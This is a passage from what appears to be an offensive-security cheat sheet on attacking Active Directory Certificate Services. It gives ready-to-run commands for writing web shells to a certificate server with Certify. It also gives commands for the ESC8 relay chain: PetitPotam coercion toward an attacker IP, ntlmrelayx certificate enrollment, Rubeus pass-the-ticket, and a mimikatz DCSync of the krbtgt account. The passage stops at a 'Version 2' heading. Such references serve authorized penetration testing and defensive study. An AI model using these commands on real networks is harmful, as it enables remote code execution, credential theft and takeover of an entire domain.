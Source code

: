 Alternative exploitation from **ManageCA** to **RCE** on ADCS server:

```ps1
# Get the current CDP list. Useful to find remote writable shares:
Certify.exe writefile /ca:SERVER\ca-name /readonly

# Write an aspx shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

# Write the default asp shell to a local web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:c:\inetpub\wwwroot\shell.asp

# Write a php shell to a remote web directory:
Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\share\shell.php /input:C:\Local\path\shell.php
```

## ESC8 - Web Enrollment Relay

> An attacker can trigger a Domain Controller using PetitPotam to NTLM relay credentials to a host of choice. The Domain Controller’s NTLM Credentials can then be relayed to the Active Directory Certificate Services (AD CS) Web Enrollment pages, and a DC certificate can be enrolled. This certificate can then be used to request a TGT (Ticket Granting Ticket) and compromise the entire domain through Pass-The-Ticket.

Require [SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket/pull/1101) PR #1101

* **Version 1**: NTLM Relay + Rubeus + PetitPotam

  ```powershell
  impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
  impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
  # For a member server or workstation, the template would be "Computer".
  # Other templates: workstation, DomainController, Machine, KerberosAuthentication

  # Coerce the authentication via MS-ESFRPC EfsRpcOpenFileRaw function with petitpotam 
  # You can also use any other way to coerce the authentication like PrintSpooler via MS-RPRN
  git clone https://github.com/topotam/PetitPotam
  python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
  python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
  python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
  python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

  # Use the certificate with rubeus to request a TGT
  Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
  Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

  # Now you can use the TGT to perform a DCSync
  mimikatz> lsadump::dcsync /user:krbtgt
  ```

* **Version 2**: NTLM Relay + Mimikatz + Kekeo

